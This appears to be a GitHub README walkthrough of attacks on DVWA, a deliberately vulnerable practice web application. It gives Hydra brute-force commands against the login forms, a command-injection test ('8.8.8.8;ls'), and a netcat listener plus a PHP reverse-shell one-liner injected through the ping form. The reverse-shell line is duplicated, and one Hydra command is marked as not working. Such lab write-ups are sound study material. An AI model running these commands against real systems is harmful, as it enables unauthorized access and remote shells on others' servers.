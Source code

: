 ## Set up DVWA

You'll need to set up the DVWA. To do this type any letter or word in the `username` and `password` fields. You'll be directed to the **Database Setup page**. Go to the bottom of the page and click the `Create / Reset Databse` button. Once the database has been created you'll be redirected to the login screen once more.  

## Brute Force the login page

<img alt="Hydra" src="https://img.shields.io/badge/-Hydra-1a73e8?style=flat-square&logo=Hydra&logoColor=white" />

MACHINE_IP/login.php

` hydra -l admin -P <path/to/password/file> MACHINE_IP http-post-form "/login.php:username=^USER^&password=^PASS^:F='Login failed'" -V `

MACHINE_IP/vulnerabilities/brute/

##### Vulnerability Level: 

[![css progressbar](https://readme-components.vercel.app/api?component=linearprogress&skill=Low&value=25)](https://github.com/harish-sethuraman/readme-components)

Before trying to brute force again I will used the same credientals used to log into the site.

The credentials worked and a picture was shown below. Right-Click the image and `Copy Image Link` and put it into the broswer. The link should look like this `MACHINEIP/hackable/users/admin.jpg`. Move up to the parent direcotry ``MACHINEIP/hackable/users/`. Here you'll get a list of the users on the site.

Open the `Web Developer Tools` by pressing `CTRL, SHIFT, I`. Go to the storage tab and make note of the Cookies.

Lets try to brute force the other users!
` hydra -l 1337 -P <path/to/password/file> MACHINE_IP http-post-form "/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:S=Username and/or password incorrect.:H=Cookie=security=low;PHPSESSID=<value for PHP SESSID cookie" -V ` --This does not work currently


## Command Injection

##### Vulnerability Level: 

[![css progressbar](https://readme-components.vercel.app/api?component=linearprogress&skill=Low&value=25)](https://github.com/harish-sethuraman/readme-components)

1. Testing for vulnerability by listing the directories
` 8.8.8.8;ls `

2. Gaining a Reverse Shell
    - Open a netcat listener in Kali terminal
    ` nc -lnvp 4242`

    - Past this code in the 'Enter an IP address: ' form. Make sure to prepend an IP address for the ping command to run and the reverse shell to work.
    `8.8.8.8;php -r '$sock=fsockopen("<KaliMachineIP>",4242);exec("/bin/sh -i <&3 >&3 2>&3");' php -r '$sock=fsockopen("<kaliMACHINEIP>",4242);exec("/bin/sh -i <&3 >&3 2>&3");' `
